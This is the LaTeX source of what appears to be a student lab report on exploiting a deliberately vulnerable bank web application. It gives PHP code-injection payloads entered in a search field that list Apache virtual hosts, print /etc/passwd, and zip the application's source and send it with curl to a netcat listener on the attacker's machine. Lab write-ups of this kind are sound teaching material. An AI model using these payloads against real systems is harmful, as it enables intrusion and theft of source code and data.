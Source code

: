 \documentclass[12pt]{report}
\begin{document}
	Yes, it is possible to access the master password for the database of another bank if we get access to the config file of the specific application.There is no mechanism to secure the application. So the virtual hosts will be affected. 
	
	The attacker could perform all attacks that we performed in this task considering that the vulnerabilities were not removed. Virtual hosts are maintained by the servers to host numerous websites. If the information about virtual hosts are exposed, then sites too can be exploited. 
	
	We first have to list all the virtual hosts configured on the server. With the command apache2ctl -S we can list them. So the query will be {\sf '.system(''apache2ctl -S'').'} 
	
	\begin{figure}[H]
		\texttt{[image: images/2\_4.jpg]}
		\caption{exposing virtual hosts.}
	\end{figure}
	
	
	
	\paragraph*{5.}{\bf Display /etc/passwd of the web server, the bank application is running on. Try different methods to	achieve this goal. Explain why some methods cannot be successful.} \\
	
	With the command {\sf '.system("cat /etc/passwd").'} in the search field, the passwd file can be displayed. 
	
	\begin{figure}[H]
		\texttt{[image: images/2\_5.jpg]}
		\caption{displaying /etc/passwd.}
	\end{figure}
	
	\paragraph*{6.}{\bf Show how to ''leak'' the complete source files of your web application. Briefly describe, how you accomplished this.}\\
	
	\begin{itemize}
		
		\item[a] On the attacker's computer we use: {\sf nc -vlp 6666 > vbank.zip}
		\item[b] query= {\sf '.system("zip -q -r /tmp/vbank.zip ../*; curl -F 'data=@/tmp/vbank.zip;' http://0.0.0.0:6666").'}
		\item[c] The attacker receives the file.
		
	\end{itemize}
	
\end{document}
